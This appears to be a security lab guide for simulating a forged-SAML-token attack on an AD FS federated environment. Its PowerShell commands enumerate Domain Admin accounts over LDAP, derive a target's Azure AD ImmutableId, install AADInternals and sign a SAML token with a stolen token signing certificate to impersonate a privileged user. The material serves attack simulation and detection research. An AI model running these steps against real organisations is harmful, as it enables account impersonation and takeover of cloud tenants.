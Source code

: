 # Forge SAML Tokens with Active Directory Federation Service (AD FS) Token Signing Certificate

If a threat actor gets to steal the AD FS token signing certificate from an AD FS server, it is just a matter of time until it is used to sign SAML tokens and impersonate users in a federated environments. 

## Sumulate & Detect
1.	[Enumerate privileged accounts](#enumerate-privileged-accounts).
2.	[Forge SAML token](#forge-saml-token).

## Enumerate Privileged Accounts

Let's start by identifying privileged accounts that we could impersonate and that could also have privileged access to resources in the cloud. In this lab guide, the default domain admin account named `pgustavo` was also the account that was assigned the Azure AD built-in Global Administrator role. Therefore, we can start by enumerating the members of the `Domain Admins` group.

### Enumerate Members of the Domain Admins Group via Lightweight Directory Access Protocol (LDAP)

**Preconditions**
* Endpoint: ADFS01
    * Authorization: AD FS service account or local admin
* Endpoint: DC01
    * Service running: Active directory domain services
    * Port open: 389

1.  Connect to the AD FS server (ADFS01) via the [Azure Bastion service](../../2_deploy/_helper_docs/connectAzVmAzBastion.md) as the AD FS service account.
2.  Open PowerShell and run the following commands:

```PowerShell
# Get Domain Name
$DomainName = (Get-WmiObject Win32_ComputerSystem).Domain 
$arr = ($DomainName).split('.')
$DNDomain = [string]::Join(",", ($arr | % { "DC={0}" -f $_ }))

# Create LDAP Search
$ADSearch = New-Object System.DirectoryServices.DirectorySearcher
$ADSearch.SearchRoot = "LDAP://$DomainName/$DNDomain"
$ADSearch.Filter = "(&(objectCategory=user)(memberOf=CN=Domain Admins,CN=Users,$DNDomain))"
$ADUsers = $ADSearch.FindAll()
$Results = @()

# Process Results
ForEach($ADUser in $ADUsers){
  If($ADUser){
    $Object = New-Object PSObject -Property @{
      Samaccountname = ($ADUser.Properties).samaccountname
      ObjectGuid  = ([guid]($ADUser.Properties).objectguid[0]).guid
    }
    $Results += $Object
  }
}
# Display results
$Results | Format-Table Samaccountname,ObjectGuid
```

![](../../resources/images/simulate_detect/credential-access/signSAMLToken/2021-05-19_01_get_domain_admins.png)

## Forge SAML Token

A threat actor would most likely do this outside of the organization. Therefore, there are no detections for this step.

**Preconditions**
* Endpoint: ADFS01
  * Even when this step would happen outside of the organization, we can use the same PowerShell session we used in the previous section.
  * Libraries Installed: [AADInternals](https://github.com/Gerenios/AADInternals)
  * AD FS token signing certificate:
    * In a previous simulation step, we [exported the AD FS token signing certificate as a PFX file](exportADFSCertificatesAsPfxFiles.md) to the `C:\ProgramData` directory with the name `ADFSTokenSigningCertificate.pfx` (default).

### Convert User AD Object GUID to its Azure AD Immutable ID representation

1.  Once we identify the privileged user we want to impersonate, we need to obtain the immutable ID of the account AD object GUID. The `ImmutableId` is the base64-encoded representation of a domain user GUID in Azure AD.

```PowerShell
$ObjectGUID = "07cd318c-b6ba-432e-9936-b992d7c78388"
$ImmutableId = [convert]::ToBase64String(([guid]$ObjectGUID).ToByteArray())
```

![](../../resources/images/simulate_detect/credential-access/signSAMLToken/2021-05-19_02_get_immutable_id.png)

### Install AADInternals

2.  On the same PowerShell session, run the following commands to install [AADInternals](https://github.com/Gerenios/AADInternals) if it is not installed yet: 

```PowerShell
Install-Module –Name AADInternals –RequiredVersion 0.4.8 -Force 
Import-Module –Name AADInternals
```

### Sign a New SAML Token

3. Use the `New-AADIntSAMLToken` function to sign a new SAML token. We would need:
  * The `ImmutableID` we got in the first stecion.
  * The path to the token signing certificate file.
  * The D FS token issuer url.

```PowerShell 
$ImmutableId = 'jDHNB7q2LkOZNrmS18eDiA=='
$Cert = 'C:\ProgramData\ADFSTokenSigningCertificate.pfx'
$Issuer = 'http://simulandlabs.com/adfs/services/trust/'
$SamlToken = New-AADIntSAMLToken -ImmutableID $ImmutableId -PfxFileName $Cert -PfxPassword "" -Issuer $Issuer
```

![](../../resources/images/simulate_detect/credential-access/signSAMLToken/2021-05-19_04_sign_saml_token.png)

## Output

Use the variable `$SamlToken` in the next step where we [get an access token via SAML bearer Assertion Flow](../persistence/getAccessTokenSAMLBearerAssertionFlow.md) for resources such as the Microsoft Graph API.

## References
* [Exporting ADFS certificates revisited: Tactics, Techniques and Procedures (o365blog.com)](https://o365blog.com/post/adfs/)

